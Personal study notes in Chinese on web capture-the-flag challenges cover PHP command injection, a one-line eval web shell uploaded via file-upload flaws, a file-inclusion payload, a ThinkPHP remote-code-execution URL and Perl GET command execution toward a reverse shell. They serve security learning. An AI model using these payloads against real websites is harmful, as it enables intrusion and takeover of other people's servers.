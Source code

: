 ## 一些解题思路

- 在url后面加入`index.php?`进行传参.【php弱类型比较？？`'abc'==0`??

- 使用*f12*查看元素

- 使用*hackbar*对服务器传递参数（发送*post*请求）

- 在*firefox*上设置代理，在*burp*上对数据包进行截取修改。（一般是网站有传参的时候才会使用*burp*对数据包进行拦截和修改）

- ***php shell***

  直接在`post`中传递shell命令获取flag：`shell=system('cat flag.txt')`;也可以通过`find`命令在`/`目录下查找`flag.txt`文件，然后使用`cat`命令获取`flag.txt`的文件内容。

- ***web shell***

  利用文件上传漏洞，往目标网站中上传一句话木马，然后就可以在本地通过中国菜刀chopper.exe即可获取和控制整个网站目录。

  `<?php @eval($_POST['attack']) ?>`

  @表示后面即使执行错误也不报错。`eval()`函数表示括号内的语句字符串什么的全都当做代码执行。

- 浏览器服务器接收到url的参数时会先自动对参数值进行**解码**。比如`%`会先编码为`%25`.

- **文件包含**

  `?page=http://127.0.0.1/index.php/?hello=<?show_source("fl2gisisish3r3.php");?>`

  利用**文件包含**将`page`后面的参数全部当做php来执行，此时该文件应该在本地服务器且为`index.php`。又因为存在`echo $_GET["hello"];`以`get`方法接收`hello`，又因为**文件包含**将`hello`后面的值当做代码执行，调用系统命令。

  


***XFF(X-Forwarded-For)***代表客户端，也就是HTTP的请求端真实的ip，只有在通过了HTTP代理或者负载均衡服务器时才会添加该项。

***HTTP Referer***是header的一部分，当浏览器向web服务器发送请求的时候，一般会带上Referer，告诉服务器我是从哪个页面链接过来的。



## ThinkPHP漏洞

ThinkPHP远程代码执行：

`/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&var[1]]=(系统命令)`



## Get命令 

- `GET`命令通过`perl`执行，`perl`在`open`当中可以执行命令，`open(FD,'ls|')`或者`open(FD,'|ls')`，前提是文件需要存在，所以使用`GET`命令的执行shell脚本命令时，需要先创建文件夹，例如使用`GET`执行`ls`命令，就需要先创建`'ls|'`（注意后面的`|`），`touch 'ls|'`,然后`GET ‘file:ls|'`，这个命令和直接在命令行执行`ls`获得的结果是一样的。

<img src="/Users/jackson/Documents/ctf/pengsj_notes/images/image-20201129150737662.png" alt="image-20201129150737662"  />

- 可以先在服务器上写上反弹shell命令
  1. 靶机请求页面写入文件当作脚本
  2. 创建bash命令文件
  3. `perl`漏洞执行反弹获取shell

- `GET`可以读取文件`GET ./filename`，读取根目录`GET /`

> 暂且不知道是什么：
>
> d2eeea69938b284db9fd454a4f1483f4
>
> 9872edb0e32d04659381b860b130a2b7
>
> 3b002f7b524b83f6c68cb45b0b217338

## URL编码与解码

给服务器传递url的时候，会对传递的参数进行url解码一次，有些网页源代码会将解码后的结果再解码一次，这就要求我们构造原字符两次编码之后的结果再进行传递。

















 













































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































